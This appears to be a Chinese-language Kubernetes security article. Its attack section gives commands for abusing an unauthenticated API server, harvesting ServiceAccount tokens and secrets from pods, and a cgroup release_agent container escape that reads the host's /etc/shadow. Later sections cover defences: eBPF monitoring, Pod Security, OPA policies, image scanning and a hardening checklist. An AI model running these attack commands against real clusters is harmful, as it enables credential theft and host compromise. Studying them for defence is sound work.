

# 云原生安全深潜

> K8s 默认不安全——100 个集群里 87 个有配置风险（Red Hat 2024 报告）。

---

## 攻击链全景



## K8s 攻击实战

### 1. 未授权 API Server 访问

```bash
# 扫描暴露的 K8s API
kubectl --server=http://1.2.3.4:6443 get pods --insecure-skip-tls-verify

# 如果 RBAC 配置不当 → 全集群控制
kubectl --server=http://1.2.3.4:6443 get secrets -n kube-system
kubectl --server=http://1.2.3.4:6443 exec -it <pod> -- bash
```

### 2. Pod 内信息收集

```bash
# 查看自动挂载的 ServiceAccount Token
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt

# 查看环境变量中的敏感信息
env | grep -i "TOKEN\|SECRET\|KEY\|PASSWORD"

# 查看 K8s API 可达性
curl -k https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT
```

### 3. 容器逃逸

```bash
# --privileged 容器逃逸
# 检查是否为特权容器
cat /proc/1/cgroup | grep -i docker

# 利用 cgroup 逃逸
# 容器内创建新的 cgroup → mount → 逃到宿主机
mkdir /tmp/cgrp
mount -t cgroup -o memory cgroup /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "cat /etc/shadow > $host_path/output" >> /cmd
chmod a+x /cmd
```

### 4. K8s 权限提升（RBAC 滥用）

```yaml
# 高危 RBAC 角色
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: dangerous-role
rules:
  - apiGroups: [""]
    resources: ["secrets"]
    verbs: ["get", "list"]  # 可读所有 Secret
  - apiGroups: ["rbac.authorization.k8s.io"]
    resources: ["clusterroles", "clusterrolebindings"]
    verbs: ["create", "bind"]  # 可创建任意角色
  - apiGroups: ["extensions", "apps"]
    resources: ["deployments", "daemonsets"]
    verbs: ["create", "update"]  # 可创建特权 Pod
```

## eBPF 安全监控

```c
/* eBPF 程序：监控可疑 execve 调用 */
SEC("tracepoint/syscalls/sys_enter_execve")
int trace_execve(struct trace_event_raw_sys_enter *ctx) {
    char comm[16];
    bpf_get_current_comm(&comm, sizeof(comm));
    
    // 关注进入容器的 shell
    if (comm[0] == 'b' && comm[1] == 'a' && comm[2] == 's' && comm[3] == 'h' ||
        comm[0] == 's' && comm[1] == 'h') {
        u32 pid = bpf_get_current_pid_tgid() >> 32;
        bpf_printk("Suspicious shell exec in container: PID %d\n", pid);
    }
    return 0;
}
```

## 防御配置

### Pod Security Standards (PSS)

```yaml
# K8s 1.23+ Pod Security Admission
apiVersion: pod-security.admission.config.k8s.io/v1beta1
kind: PodSecurityConfiguration
defaults:
  enforce: "restricted"  # 最高安全级别
  enforce-version: "latest"
exemptions:
  namespaces: ["kube-system", "istio-system"]
```

### OPA/Gatekeeper 策略

```rego
# 禁止特权容器
package k8s.block_privileged

violation[{"msg": msg}] {
    container := input.review.object.spec.containers[_]
    container.securityContext.privileged
    msg := sprintf("Privileged container not allowed: %v", [container.name])
}

# 限制镜像来源
violation[{"msg": msg}] {
    container := input.review.object.spec.containers[_]
    not startswith(container.image, "registry.company.com/")
    msg := sprintf("Image must come from corporate registry: %v", [container.image])
}
```

## 镜像安全扫描

```bash
# Trivy 全量扫描
trivy image --severity CRITICAL,HIGH nginx:latest
trivy repo --severity CRITICAL https://github.com/org/app.git
trivy fs --severity CRITICAL .

# Grype
grype nginx:latest --fail-on high --only-fixed

# Docker Scout
docker scout quickview nginx:latest
docker scout recommendations nginx:latest
```

## 集群安全清单

```
[ ] API Server 不暴露公网
[ ] RBAC 最小权限（不创建 cluster-admin 用户）
[ ] ServiceAccount 不自动挂载（automountServiceAccountToken: false）
[ ] Pod 使用 restricted PSS
[ ] 镜像扫描集成到 CI（Trivy/Grype）
[ ] NetworkPolicy 配置微隔离
[ ] 审计日志开启（API Server audit log）
[ ] 开启 Pod Security Admission
[ ] OPA/Gatekeeper 策略覆盖
[ ] 运行时安全（Falco/Tetragon）
[ ] Secret 加密存储（KMS + etcd 加密）
[ ] 节点自动更新（Kured/OS 自动补丁）
```
